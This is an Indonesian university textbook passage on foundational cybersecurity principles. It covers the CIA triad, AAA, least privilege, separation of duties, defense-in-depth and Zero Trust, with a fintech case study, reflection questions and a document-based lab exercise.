Bab 1 membangun fondasi konseptual tentang keamanan siber sebagai disiplin multidimensi yang mencakup aspek teknis, prosedural, manusia, hukum, strategis, dan geopolitik. Keamanan siber bukan subset sederhana dari keamanan informasi — ia merupakan domain yang terus berkembang seiring evolusi teknologi dan ancaman.

Tiga insiden besar yang dianalisis — SolarWinds, Colonial Pipeline, dan Log4Shell — secara kolektif mendemonstrasikan tiga vektor serangan yang dominan di era modern: **supply chain attacks** (kepercayaan berlebihan pada vendor), **credential-based attacks** (lemahnya autentikasi), dan **software vulnerability exploitation** (kegagalan manajemen dependensi dan patch). Setiap insiden dapat ditelusuri kembali ke kegagalan prinsip-prinsip keamanan dasar yang akan dipelajari lebih mendalam di bab berikutnya.

Pemahaman tentang evolusi ancaman — dari virus eksperimental di era ARPANET hingga AI-driven attacks di era modern — membekali mahasiswa dengan perspektif historis yang diperlukan untuk mengantisipasi, bukan sekadar bereaksi terhadap, ancaman masa depan. Paradigma keamanan siber telah bergeser dari *perimeter-based* ke *risk-based* dan kini menuju *zero trust* — sebuah evolusi yang mencerminkan realitas bahwa dalam lanskap ancaman modern, kepercayaan implisit adalah kemewahan yang tidak dapat kita izinkan.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1 — Tanggung Jawab Hukum:**
Colonial Pipeline membayar tebusan ransomware sebesar USD 4,4 juta. Sebagai CISO sebuah perusahaan infrastruktur kritis di Indonesia, apakah Anda akan merekomendasikan pembayaran tebusan jika terjadi serangan serupa? Pertimbangkan: kewajiban hukum berdasarkan UU ITE dan peraturan BSSN, implikasi moral pembayaran tebusan (yang dapat mendanai operasi kriminal lebih lanjut), tanggung jawab kepada pemangku kepentingan (pelanggan, karyawan, pemegang saham), dan keterbatasan praktis jika data backup tidak tersedia atau tidak andal.

**Pertanyaan Refleksi 2 — Etika Pengungkapan Kerentanan:**
Seorang peneliti keamanan menemukan kerentanan kritis (mirip Log4Shell) dalam sistem perbankan yang digunakan oleh 50 bank di Indonesia. Pihak vendor tidak merespons laporan dalam 30 hari. Apa kewajiban etis dan hukum peneliti tersebut? Kapan *responsible disclosure* vs *full disclosure* tepat untuk diterapkan? Siapa yang harus dihubungi terlebih dahulu: vendor, BSSN, OJK, atau media? Bagaimana keputusan ini berbeda jika kerentanan sudah aktif dieksploitasi?

**Pertanyaan Refleksi 3 — Privasi vs Keamanan:**
Setelah insiden pemda dalam studi kasus, pemerintah daerah mempertimbangkan implementasi sistem monitoring jaringan komprehensif yang akan merekam dan menganalisis semua traffic jaringan staf ASN. Tindakan ini dapat membantu mendeteksi ancaman lebih cepat, tetapi juga berimplikasi pada privasi ASN. Bagaimana Anda menyeimbangkan kepentingan keamanan organisasi dengan hak privasi karyawan? Framework apa (hukum, teknis, prosedural) yang dapat membantu membuat keputusan ini secara bertanggung jawab?

---


---

# BAB 2 — PRINSIP DASAR KEAMANAN SIBER: CIA TRIAD, AAA, LEAST PRIVILEGE, DAN ZERO TRUST

**Pertemuan:** 2  
**Sub-CPMK:** Sub-CPMK.1  
**CPMK:** CPMK.1  
**Evaluasi:** Eval-1 (Ringkasan kasus dan kuis konsep, 5%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 2, mahasiswa mampu:

- Menjelaskan dan menerapkan CIA Triad (Confidentiality, Integrity, Availability) dalam analisis insiden dan perancangan kontrol keamanan.
- Mendeskripsikan framework AAA (Authentication, Authorization, Accounting) dan membedakan ketiga komponennya.
- Mengaplikasikan prinsip Least Privilege dan Separation of Duties dalam skenario manajemen akses.
- Menjelaskan arsitektur Defense-in-Depth dan merancang lapisan kontrol keamanan yang saling melengkapi.
- Mengevaluasi konsep Zero Trust dan implementasinya dalam lingkungan jaringan modern.

*Kaitan OBE: Sub-CPMK.1 → CPMK.1 → IK-3.a → CPL3 → Eval-1*

---

## 2. Peta Konsep Bab



---

## 3. Pengantar Kontekstual

Bayangkan sebuah bank yang menyimpan uang nasabah dalam brankas baja yang sangat kuat, tetapi kunci brankasnya dibiarkan menggantung di kait pintu depan, pegawai kasir memiliki akses ke semua rekening tanpa batasan, dan tidak ada kamera CCTV. Secara fisik, brankas itu aman. Secara sistem, bank itu sangat rentan.

Prinsip keamanan siber bekerja dengan cara yang sama. CIA Triad, AAA, Least Privilege, Separation of Duties, Defense-in-Depth, dan Zero Trust bukan sekadar konsep akademis — ini adalah prinsip-prinsip rekayasa yang telah dikembangkan selama puluhan tahun sebagai respons terhadap kegagalan keamanan nyata. Setiap kali terjadi pelanggaran keamanan yang signifikan, analisis forensik hampir selalu menemukan setidaknya satu pelanggaran terhadap prinsip-prinsip ini.

Ketika Equifax mengalami kebocoran data 147 juta pelanggan pada 2017, investigasi menemukan bahwa data yang bocor tidak dienkripsi (pelanggaran Confidentiality), sertifikat SSL yang digunakan untuk monitoring sudah kadaluarsa selama 19 bulan (pelanggaran proses kontrol), dan patch Apache Struts yang kritis tidak diterapkan selama berbulan-bulan (kegagalan patch management). Ini bukan kegagalan tunggal — ini adalah kegagalan sistemik yang melibatkan beberapa prinsip dasar sekaligus.

Memahami prinsip-prinsip ini secara mendalam — termasuk batas-batas, asumsi, dan risiko kesalahan interpretasinya — adalah prerequisit untuk semua yang akan Anda pelajari di mata kuliah ini dan di program studi ini secara keseluruhan.

---

## 4. Landasan Teori

### 4.1 CIA Triad: Fondasi Evaluasi Keamanan Informasi

CIA Triad adalah model konseptual yang paling fundamental dalam keamanan informasi. Dikembangkan secara formal pada akhir 1970-an dan diadopsi dalam standar keamanan global, triad ini menyediakan kerangka untuk mengklasifikasikan dampak insiden keamanan dan menentukan kontrol yang tepat.

#### 4.1.1 Confidentiality (Kerahasiaan)

> **Definisi (NIST):** Properti yang menjamin bahwa informasi tidak tersedia atau tidak diungkapkan kepada individu, entitas, atau proses yang tidak berwenang.

**Tujuan:** Memastikan bahwa hanya pihak yang berwenang yang dapat mengakses informasi sensitif.

**Prinsip Kerja:** Confidentiality dicapai melalui mekanisme kontrol akses (siapa yang boleh melihat), enkripsi (bagaimana data dilindungi selama transmisi dan penyimpanan), dan klasifikasi data (menentukan tingkat sensitivitas).

**Asumsi:** Confidentiality mengasumsikan bahwa ada kategorisasi yang jelas antara informasi yang sensitif dan tidak sensitif, serta mekanisme yang andal untuk menegakkan batas tersebut.

**Batasan:** Confidentiality tidak melindungi terhadap insider threat yang memiliki akses sah. Enkripsi yang kuat sekalipun dapat dilewati jika kunci enkripsi tidak dikelola dengan baik.

**Contoh Penerapan:**
- Enkripsi data nasabah bank menggunakan AES-256
- Klasifikasi dokumen pemerintah (Rahasia, Sangat Rahasia, Biasa)
- Data Loss Prevention (DLP) untuk mencegah kebocoran dokumen sensitif melalui email

**Risiko Kesalahan Interpretasi:**
Banyak organisasi berfokus berlebihan pada confidentiality dan mengabaikan integrity dan availability. Ini menciptakan situasi di mana data "aman" (tidak bocor) tetapi tidak dapat dipercaya (karena dimanipulasi) atau tidak dapat diakses (karena sistem down saat dibutuhkan).

**Ancaman terhadap Confidentiality:**
- *Eavesdropping* (penyadapan jaringan)
- *Data exfiltration* (pencurian data oleh malware atau insider)
- *Unauthorized access* (akses tanpa izin ke sistem atau database)
- *Social engineering* (manipulasi manusia untuk mengungkapkan informasi)

**Kontrol untuk Confidentiality:**
- Enkripsi data *at-rest* dan *in-transit*
- Access control (RBAC, ABAC)
- Data classification dan labelling
- DLP (Data Loss Prevention)
- Network encryption (TLS, VPN)

#### 4.1.2 Integrity (Integritas)

> **Definisi (NIST):** Properti yang menjamin bahwa data tidak dimodifikasi atau dihancurkan dengan cara yang tidak sah, dan mencakup keaslian (*authenticity*) dan tidak dapat disangkal (*non-repudiation*).

**Tujuan:** Memastikan bahwa data akurat, lengkap, dan tidak dimanipulasi oleh pihak yang tidak berwenang.

**Prinsip Kerja:** Integrity dicapai melalui mekanisme yang mendeteksi perubahan tidak sah pada data. Ini dapat berupa cryptographic hashing (MD5, SHA-256, SHA-3), digital signature, message authentication codes (MAC), atau database transaction logs.

**Asumsi:** Integrity mengasumsikan adanya *baseline* yang diketahui dan terpercaya untuk dibandingkan. Tanpa baseline yang valid, tidak mungkin mendeteksi perubahan.

**Batasan:** Integrity controls dapat melindungi terhadap modifikasi tidak sah, tetapi tidak mencegah penghapusan data yang dilakukan oleh pihak yang berwenang namun berniat jahat (*authorized-but-malicious*).

**Contoh Penerapan:**
- Verifikasi hash SHA-256 pada file yang diunduh untuk memastikan tidak ada perubahan
- Digital signature pada dokumen kontrak untuk membuktikan keaslian dan mencegah penyangkalan (*non-repudiation*)
- Database transaction logs untuk melacak semua perubahan data
- File integrity monitoring (FIM) seperti AIDE atau Tripwire untuk sistem kritis

**Risiko Kesalahan Interpretasi:**
Integrity sering diasumsikan hanya berkaitan dengan data yang disimpan. Padahal, integrity juga mencakup integritas **sistem** (tidak ada modifikasi tidak sah pada konfigurasi, kernel, atau aplikasi) dan integritas **proses** (tidak ada manipulasi pada alur eksekusi program).

**Dimensi Integrity:**

| Dimensi | Deskripsi | Contoh Kontrol |
|---|---|---|
| Data Integrity | Data tidak dimanipulasi | Hash, digital signature, MAC |
| System Integrity | Sistem tidak dimodifikasi | File Integrity Monitoring (FIM), Secure Boot |
| Process Integrity | Proses berjalan sesuai spesifikasi | Code signing, application control |
| Source Integrity | Sumber data dapat dipercaya | PKI, certificate validation |

#### 4.1.3 Availability (Ketersediaan)

> **Definisi (NIST):** Properti yang menjamin bahwa sistem, jaringan, dan data dapat diakses dan digunakan sesuai permintaan oleh entitas yang berwenang.

**Tujuan:** Memastikan bahwa layanan dan data tersedia ketika dibutuhkan oleh pengguna yang berwenang.

**Prinsip Kerja:** Availability dicapai melalui redundansi (*no single point of failure*), failover, load balancing, backup dan recovery, serta perlindungan terhadap serangan yang dapat mengganggu layanan (seperti DDoS).

**Asumsi:** Availability mengasumsikan bahwa ada definisi yang jelas tentang *Service Level Agreement (SLA)* — berapa lama downtime yang dapat ditoleransi dan berapa cepat recovery yang diperlukan. Tanpa definisi ini, tidak ada standar untuk mengukur keberhasilan.

**Batasan:** Availability yang tinggi membutuhkan investasi signifikan dalam redundansi dan infrastruktur. Ada trade-off inheren antara availability dan keamanan: semakin banyak akses yang diizinkan (untuk availability), semakin besar permukaan serangan.

**Metrik Availability:**
- **Uptime**: Persentase waktu sistem beroperasi (misal: 99.9% = ~8.7 jam downtime per tahun)
- **RTO (Recovery Time Objective)**: Berapa lama sistem boleh mati sebelum recovery dimulai
- **RPO (Recovery Point Objective)**: Berapa banyak data yang boleh hilang (dalam satuan waktu)
- **MTTR (Mean Time to Recover)**: Rata-rata waktu yang dibutuhkan untuk pulih dari kegagalan

**Ancaman terhadap Availability:**
- DDoS (Distributed Denial of Service) attack
- Ransomware yang mengenkripsi data
- Hardware failure
- Power outage
- Bencana alam

📌 **Poin Kunci — Konflik Antar Elemen CIA:**
Ketiga elemen CIA tidak selalu dapat dimaksimalkan secara bersamaan. Terdapat konflik inheren:
- **Confidentiality vs Availability**: Enkripsi yang kuat meningkatkan confidentiality tetapi dapat memperlambat akses dan menurunkan availability
- **Integrity vs Availability**: Verifikasi hash setiap akses meningkatkan integrity tetapi menambah latensi
- **Confidentiality vs Integrity**: Enkripsi data dapat menyembunyikan modifikasi yang tidak sah

Praktisi keamanan harus memahami konflik ini dan membuat keputusan berdasarkan **risk appetite** dan **business requirements** organisasi.

### 4.2 Ekstensi CIA: Autentisitas, Non-Repudiation, dan Privacy

Beberapa standar modern memperluas CIA dengan komponen tambahan:

**Authenticity (Keaslian):** Jaminan bahwa entitas (pengguna, sistem, pesan) adalah apa yang diklaim. Ini adalah prasyarat untuk Confidentiality dan Integrity yang efektif — kontrol akses tidak berarti jika identitas tidak dapat diverifikasi.

**Non-Repudiation (Tidak Dapat Disangkal):** Jaminan bahwa suatu tindakan atau transaksi tidak dapat disangkal oleh pihak yang melakukannya. Digital signature memberikan non-repudiation yang kuat — penandatangan tidak dapat mengklaim bahwa mereka tidak menandatangani dokumen tersebut.

**Privacy:** Hak individu untuk mengontrol informasi tentang diri mereka. Privacy adalah konsep yang lebih luas dari confidentiality — seseorang memiliki hak untuk menentukan siapa yang dapat mengakses informasi tentang mereka, untuk tujuan apa, dan dalam kondisi apa. Regulasi seperti GDPR, UU PDP Indonesia, dan HIPAA mewajibkan perlindungan privacy secara hukum.

### 4.3 AAA Framework: Authentication, Authorization, Accounting

Framework AAA menyediakan struktur untuk mengelola identitas, akses, dan akuntabilitas dalam sistem informasi.

#### 4.3.1 Authentication (Autentikasi)

> **Definisi:** Proses verifikasi identitas suatu entitas (pengguna, perangkat, atau layanan) sebelum memberikan akses ke sistem atau sumber daya.

**Faktor Autentikasi:**
Autentikasi modern menggunakan kombinasi dari tiga kategori faktor:

| Faktor | Deskripsi | Contoh | Kelemahan |
|---|---|---|---|
| **Something You Know** (Sesuatu yang Anda ketahui) | Informasi rahasia yang hanya diketahui pengguna | Password, PIN, jawaban pertanyaan keamanan | Dapat dicuri, dilupakan, atau ditebak |
| **Something You Have** (Sesuatu yang Anda miliki) | Objek fisik atau digital | Token hardware (YubiKey), smartphone (TOTP), smart card | Dapat hilang atau dicuri secara fisik |
| **Something You Are** (Sesuatu yang Anda adalah) | Karakteristik biometrik | Sidik jari, pengenalan wajah, retina, suara | Tidak dapat diubah jika dikompromikan; masalah privasi |
| **Somewhere You Are** (Di mana Anda berada) | Lokasi geografis atau jaringan | Geofencing, IP-based restriction | Mudah di-spoof dengan VPN atau proxy |

**Multi-Factor Authentication (MFA):**
MFA menggunakan dua atau lebih faktor dari kategori yang *berbeda*. Menggunakan dua password adalah *two-step verification*, bukan MFA sejati. MFA yang efektif menggabungkan faktor dari setidaknya dua kategori berbeda (misalnya: password + TOTP, atau smart card + PIN).

**Risiko Kesalahan Interpretasi:**
- **SMS OTP bukan MFA yang kuat**: SMS dapat disadap melalui SIM swapping atau SS7 attack. Untuk sistem kritis, gunakan autentikator berbasis TOTP (TOTP RFC 6238) atau FIDO2/WebAuthn.
- **Biometrik adalah identifikasi, bukan autentikasi tunggal yang aman**: Biometrik tidak dapat diubah jika dikompromikan. Sebaiknya dikombinasikan dengan faktor lain.

#### 4.3.2 Authorization (Otorisasi)

> **Definisi:** Proses menentukan dan menegakkan hak akses suatu entitas yang telah terautentikasi — apa yang boleh dan tidak boleh dilakukan.

**Model Kontrol Akses:**

| Model | Deskripsi | Use Case | Contoh |
|---|---|---|---|
| **DAC (Discretionary Access Control)** | Pemilik sumber daya menentukan siapa yang dapat mengakses | Filesystem UNIX/Windows | File permissions (rwx) |
| **MAC (Mandatory Access Control)** | Kebijakan sistem yang ditentukan administrator, tidak dapat diubah pengguna | Sistem keamanan tinggi (militer, intelijen) | SELinux, AppArmor, Bell-LaPadula model |
| **RBAC (Role-Based Access Control)** | Akses berdasarkan peran/jabatan | Enterprise systems | Active Directory groups, IAM roles di AWS |
| **ABAC (Attribute-Based Access Control)** | Akses berdasarkan atribut (lokasi, waktu, perangkat, konteks) | Cloud-native, Zero Trust | AWS IAM Conditions, Azure Conditional Access |

**Principle of Least Privilege:** Setiap entitas (pengguna, proses, layanan) harus memiliki hak akses minimum yang diperlukan untuk menjalankan fungsinya — tidak lebih. Ini adalah kontrol yang paling efektif untuk membatasi *blast radius* jika sebuah akun dikompromikan.

#### 4.3.3 Accounting (Akuntansi/Audit Trail)

> **Definisi:** Pencatatan dan pemantauan aktivitas pengguna setelah autentikasi dan otorisasi, untuk tujuan audit, investigasi forensik, dan deteksi anomali.

**Komponen Accounting:**
- **Logging**: Mencatat semua aktivitas sistem dalam log yang terstruktur
- **Auditing**: Peninjauan berkala terhadap log untuk memastikan kepatuhan dan mendeteksi anomali
- **Forensic Readiness**: Memastikan log tersedia, tidak dapat dimanipulasi, dan dapat digunakan sebagai bukti hukum
- **Non-repudiation**: Memastikan log cukup kuat untuk membuktikan bahwa suatu tindakan benar-benar dilakukan oleh entitas tertentu

**Standar Logging yang Baik (SYSLOG, Common Event Format):**
Log yang baik harus mencatat: *Who* (siapa), *What* (apa), *When* (kapan), *Where* (dari mana), *Why* (untuk apa — konteks bisnis jika tersedia). Log yang tidak mengandung elemen-elemen ini tidak bernilai untuk investigasi forensik.

### 4.4 Least Privilege dan Separation of Duties

#### 4.4.1 Least Privilege (Hak Akses Minimum)

> **Definisi (NIST SP 800-53):** Prinsip yang mengharuskan setiap subjek (pengguna, proses, perangkat) dalam sistem hanya diberikan hak dan akses minimum yang diperlukan untuk melaksanakan tugasnya.

**Mengapa Least Privilege Penting:**
Jika sebuah akun dikompromikan, dampak serangan dibatasi oleh hak akses yang dimiliki akun tersebut. Akun dengan hak administrator yang dikompromikan dapat menyebabkan kerusakan total pada sistem, sementara akun dengan hak akses terbatas hanya dapat merusak komponen yang berada dalam lingkup aksesnya.

**Penerapan Least Privilege:**
- **Just-in-Time (JIT) Access**: Memberikan akses istimewa hanya ketika dibutuhkan dan mencabutnya segera setelah tugas selesai
- **Privileged Access Management (PAM)**: Sistem khusus untuk mengelola dan memonitor akun dengan hak istimewa
- **Service Account Hardening**: Akun layanan (*service account*) hanya memiliki izin yang diperlukan untuk fungsinya, bukan hak administrator
- **Regular Privilege Review**: Meninjau hak akses secara berkala untuk menghapus hak yang tidak lagi diperlukan (*access creep*)

**Access Creep:**
Seiring berjalannya waktu, pengguna sering mengumpulkan hak akses yang melebihi kebutuhannya saat ini — misalnya, karena berpindah departemen tetapi akses lama tidak dicabut. Ini disebut *access creep* dan merupakan pelanggaran least privilege yang umum.

#### 4.4.2 Separation of Duties (SoD)

> **Definisi:** Prinsip keamanan yang membagi tugas-tugas kritis di antara beberapa individu atau sistem sehingga tidak ada satu orang pun yang dapat melakukan atau menyembunyikan penipuan, kesalahan, atau aktivitas tidak sah sendirian.

**Mengapa SoD Penting:**
SoD adalah kontrol preventif terhadap *insider fraud* dan *sabotage*. Dalam konteks perbankan, misalnya, orang yang menyetujui transaksi tidak boleh sama dengan orang yang mengeksekusinya. Dalam IT, orang yang mengembangkan kode tidak boleh sama dengan orang yang meng-approvenya untuk produksi.

**Contoh Penerapan SoD:**

| Konteks | Tugas yang Dipisahkan | Alasan |
|---|---|---|
| **Perbankan** | Approval transaksi ≠ Eksekusi transaksi | Mencegah penggelapan dana |
| **IT Development** | Developer ≠ Change approver ≠ Deployment to production | Mencegah kode berbahaya masuk ke produksi |
| **Keamanan IT** | Firewall rule creator ≠ Firewall rule approver | Mencegah akses tidak sah yang diotoriasi sendiri |
| **Audit** | Auditor ≠ Auditee | Mencegah conflict of interest dalam laporan audit |
| **Kriptografi** | Key holder ≠ Key user (dual control) | Mencegah penggunaan kunci enkripsi untuk tujuan tidak sah |

**Batasan SoD:**
- SoD meningkatkan biaya operasional karena membutuhkan lebih banyak sumber daya
- Dalam organisasi kecil dengan staf terbatas, SoD penuh mungkin tidak praktis — perlu kompensating controls
- SoD tidak mencegah *collusion* (kolaborasi) antara dua atau lebih individu yang memiliki tugas terpisah

### 4.5 Defense-in-Depth

> **Definisi:** Strategi keamanan yang menerapkan beberapa lapisan kontrol keamanan yang independen, sehingga kegagalan satu lapisan tidak mengakibatkan kompromi total.

**Asal-Usul:**
Konsep ini berasal dari strategi militer — pertahanan berlapis yang memaksa penyerang melewati beberapa lapisan pertahanan, masing-masing memberikan waktu dan kesempatan untuk mendeteksi dan merespons serangan.

**Lapisan Defense-in-Depth:**

```
[Perimeter → Jaringan → Host → Aplikasi → Data]
```

| Lapisan | Contoh Kontrol |
|---|---|
| **Physical** | Kunci fisik, badge access, CCTV, biometric door |
| **Perimeter** | Firewall, DMZ, WAF, IPS |
| **Network** | VLAN segmentation, NAC, IDS |
| **Host** | OS hardening, endpoint antivirus, EDR, patch management |
| **Application** | Input validation, authentication, authorization, code review |
| **Data** | Encryption at-rest, data masking, DLP, backup |

**Prinsip-Prinsip Defense-in-Depth:**
1. **Layering**: Setiap lapisan harus memberikan nilai tambah keamanan yang independen dari lapisan lain.
2. **Limiting**: Meminimalkan hak akses dan permukaan serangan di setiap lapisan.
3. **Diversity**: Menggunakan teknologi yang berbeda di setiap lapisan sehingga satu kerentanan tidak mempengaruhi semua lapisan.
4. **Obscurity** (dengan catatan): Menyembunyikan detail implementasi dapat menambah hambatan bagi penyerang, tetapi **security through obscurity bukanlah kontrol yang cukup**.

**Keterbatasan Defense-in-Depth:**
Defense-in-Depth tidak efektif jika semua lapisan menggunakan teknologi yang sama (satu zero-day dapat menembus semua lapisan), atau jika lapisan-lapisan tersebut dikelola secara terpisah tanpa koordinasi (attacker dapat memanfaatkan celah antara lapisan).

### 4.6 Zero Trust Architecture

> **Definisi (NIST SP 800-207):** Zero Trust (ZT) adalah istilah untuk sekumpulan paradigma keamanan siber yang memindahkan pertahanan dari perimeter statis berbasis jaringan menjadi berfokus pada pengguna, aset, dan sumber daya. Zero Trust mengasumsikan tidak ada kepercayaan implisit yang diberikan kepada aset atau akun pengguna hanya berdasarkan lokasi jaringan mereka.

**Prinsip Zero Trust:**

1. **Verify Explicitly** (Verifikasi Selalu): Selalu autentikasi dan otorisasi berdasarkan semua titik data yang tersedia — identitas, lokasi, perangkat, layanan/workload, klasifikasi data, dan anomali.

2. **Use Least Privileged Access** (Akses Minimum): Batasi akses pengguna dengan Just-in-Time (JIT) dan Just-Enough-Access (JEA), kebijakan adaptif berbasis risiko, dan perlindungan data.

3. **Assume Breach** (Asumsikan Pelanggaran): Minimalkan *blast radius* dan segmentasi akses. Verifikasi enkripsi end-to-end. Gunakan analitik untuk mendapatkan visibilitas, mendorong deteksi ancaman, dan meningkatkan pertahanan.

**Perbedaan Paradigma Perimeter vs Zero Trust:**

| Aspek | Perimeter-Based | Zero Trust |
|---|---|---|
| **Kepercayaan** | Semua yang ada di dalam jaringan dipercaya | Tidak ada yang dipercaya secara default, internal atau eksternal |
| **Perimeter** | Batas jaringan yang jelas (firewall eksternal) | Tidak ada perimeter — perimeter adalah setiap sumber daya |
| **Autentikasi** | Satu kali di pintu masuk | Berkelanjutan, per sesi/per permintaan |
| **Segmentasi** | Segmentasi kasar (inside/outside) | Mikro-segmentasi per workload |
| **Respons terhadap Kompromi** | Diasumsikan aman jika sudah masuk jaringan | Diasumsikan kompromi sudah terjadi, terus verifikasi |

**Komponen Arsitektur Zero Trust (NIST SP 800-207):**
- **Policy Engine (PE)**: Mengambil keputusan akses berdasarkan kebijakan
- **Policy Administrator (PA)**: Menegakkan keputusan PE
- **Policy Enforcement Point (PEP)**: Titik di mana akses diizinkan atau diblokir
- **Data Sources**: Identity provider, device registry, threat intelligence, SIEM

**Miskonsepsi Umum tentang Zero Trust:**
- Zero Trust bukan produk yang dapat dibeli — ini adalah arsitektur dan filosofi
- Zero Trust tidak berarti menghapus semua kepercayaan — ini berarti menggantikan kepercayaan implisit dengan kepercayaan eksplisit yang berkelanjutan
- Implementasi Zero Trust bersifat inkremental, bukan revolusioner

---

## 5. Model atau Arsitektur

### 5.1 Interaksi CIA dengan Ancaman dan Kontrol



### 5.2 Arsitektur Zero Trust End-to-End



---

## 6. Contoh Terapan

### Studi Kasus: Implementasi Zero Trust di Perusahaan Teknologi Keuangan

**Konteks Kasus:**
Sebuah perusahaan fintech (*financial technology*) dengan 500 karyawan beralih dari model kerja kantor penuh ke model hybrid (50% remote) selama dan setelah pandemi. Tim keamanan mengidentifikasi bahwa model perimeter tradisional — di mana VPN memberikan akses penuh ke jaringan korporat — tidak lagi sesuai dengan pola kerja baru.

**Aset yang Dilindungi:**
- Data transaksi keuangan pelanggan (PII dan data keuangan)
- API yang menghubungkan aplikasi mobile pelanggan dengan sistem backend
- Sistem pembayaran yang terintegrasi dengan perbankan
- Intellectual property (kode sumber, model AI fraud detection)

**Ancaman:**
- Karyawan remote yang perangkatnya dikompromikan oleh malware
- Credential phishing yang menargetkan karyawan
- Insider threat dari kontraktor dengan akses luas melalui VPN
- API abuse dari aplikasi yang dikompromikan

**Proses Analisis dan Keputusan:**

*Fase 1: Assessment (Bulan 1-2)*
Tim keamanan melakukan audit penuh terhadap pola akses dan mengidentifikasi:
- 80% karyawan hanya mengakses 20% dari sumber daya perusahaan secara reguler
- 15 akun kontraktor memiliki akses VPN yang lebih luas dari yang diperlukan
- Tidak ada kontrol berbasis perangkat — perangkat pribadi yang tidak dikelola dapat mengakses sistem melalui VPN

*Fase 2: Arsitektur Zero Trust (Bulan 3-4)*
Tim merancang arsitektur ZT dengan komponen:
- **Identity Provider**: Migrasi ke Microsoft Azure AD dengan MFA wajib
- **Device Compliance**: Semua perangkat harus terdaftar dalam MDM (Mobile Device Management) dan memenuhi baseline keamanan
- **Conditional Access**: Akses ke sistem kritis hanya dari perangkat yang compliant, dari lokasi yang diizinkan, pada jam kerja
- **Micro-segmentation**: API backend disegmentasi — kontraktor hanya mengakses API yang relevan dengan pekerjaannya
- **Continuous Monitoring**: Semua akses dilog di SIEM, dengan alerting untuk anomali perilaku

*Fase 3: Implementasi Bertahap (Bulan 5-12)*
Implementasi dilakukan secara bertahap untuk menghindari gangguan operasional:
- Dimulai dari sistem paling kritis (sistem pembayaran)
- Diikuti oleh aplikasi internal berisiko tinggi
- Berakhir dengan sistem non-kritis

**Keputusan Teknis/Manajerial:**
- CISO memutuskan untuk mempertahankan VPN sebagai fallback tetapi dengan akses sangat terbatas
- Anggaran keamanan ditingkatkan 30% untuk mendukung investasi ZT
- Pelatihan karyawan tentang perubahan alur kerja menjadi prioritas utama

**Hasil yang Dicapai:**
- Waktu deteksi anomali berkurang dari rata-rata 6 hari menjadi 4 jam
- Tidak ada insiden keamanan signifikan selama 18 bulan pasca-implementasi
- Akses kontraktor berhasil dibatasi menjadi hanya sumber daya yang diperlukan

---

## 7. Praktikum atau Aktivitas Terarah

### Praktikum 2.1: Analisis Pelanggaran CIA dalam Insiden Nyata

**Tujuan Praktikum:**
Melatih kemampuan analisis CIA terhadap insiden keamanan nyata dan mengidentifikasi kontrol yang seharusnya diterapkan.

**Prasyarat:**
Selesaikan pembacaan Bab 1 dan Bab 2.

**Lingkungan Lab:**
Tidak diperlukan lingkungan lab khusus. Berbasis analisis dokumen.

**Dataset:**
Gunakan laporan insiden dari sumber resmi berikut:
- Verizon DBIR (Data Breach Investigations Report) — tersedia gratis di verizon.com/dbir
- CISA Known Exploited Vulnerabilities (KEV) Catalog
- Laporan insiden yang dipilihkan oleh dosen

**Langkah Kerja Tingkat Tinggi:**

1. **Pilih 3 insiden** dari DBIR tahun terbaru yang berbeda jenis (misalnya: satu insiden ransomware, satu data breach, satu DDoS).

2. **Analisis dampak CIA** untuk setiap insiden:
   - Elemen CIA mana yang terdampak?
   - Seberapa besar dampaknya (tinggi/sedang/rendah)?
   - Apa bukti dari laporan yang mendukung analisis ini?

3. **Identifikasi kegagalan AAA**:
   - Pada insiden mana autentikasi gagal? Bagaimana?
   - Pada insiden mana otorisasi gagal? Apakah ada pelanggaran least privilege?
   - Apakah accounting/logging membantu atau gagal mendeteksi insiden?

4. **Rancang kontrol perbaikan** untuk setiap insiden:
   - Tiga kontrol teknis
   - Satu kontrol prosedural
   - Satu kontrol manusia (pelatihan, awareness)

5. **Evaluasi apakah Defense-in-Depth dapat mencegah insiden** — lapisan mana yang gagal?

**Bukti yang Harus Dikumpulkan:**
- Tabel analisis CIA per insiden
- Tabel kegagalan AAA per insiden
- Matriks kontrol perbaikan (Teknis/Prosedural/Manusia)
